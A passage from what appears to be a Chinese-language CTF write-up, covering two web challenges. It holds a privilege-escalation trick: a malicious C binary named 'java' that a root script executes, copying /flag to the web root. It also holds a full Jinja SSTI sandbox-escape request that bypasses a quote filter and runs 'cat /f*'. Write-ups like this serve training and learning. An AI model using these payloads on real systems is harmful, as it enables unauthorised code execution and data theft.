 ```python
        return None
if __name__ == '__main__':
    while True:
        try:
            processes = get_process_list()
            for process in processes:
                get_version(process)
        except:
                pass
        time.sleep(20)


```

每隔20秒，`ps -ef`获取含有java的进程，有就加入到get_version的列表，在`get_version`函数中根据进程信息，先⽤readlink获取`proc`目录当前进程的`exe`文件，然后执⾏可执行文件 --version 

思路：我们可以创建一个恶意的可执行文件，然后命名为java，开始运行，这样run.py就可以检测到含有Java的进程，然后运行该恶意可执行文件

创建一个恶意的c文件

```c
#include <cstdlib>
#include <unistd.h>
int main(){
    system("cat /flag > /var/www/html/1.txt");
    sleep(300);
    return 0;
}
```

接着编译⽣成，-o执⾏程序名为java，然后赋予权限启动

```
gcc 1.c -o java
chmod 777 java
./java
```

##  newweb_new

题目说`http`不能连接

我们利用`nghttp http://39.106.156.96:48097/ -v`就可以连接

一个301跳转拿到真实的路径

访问路径405 改成post传参 沙箱逃逸 过滤单双引号 ⽤request

```
POST /sup3rh1dep4th/?
x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7
=__builtins__&x8=eval&x9=__import__("os").popen('cat%20/f*').read() HTTP/2
Host: 39.106.156.96:48097
Content-Length: 241
Content-Type: application/x-www-form-urlencoded
data=()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)
()|attr(request.args.x4)
(280)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)
(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)

```
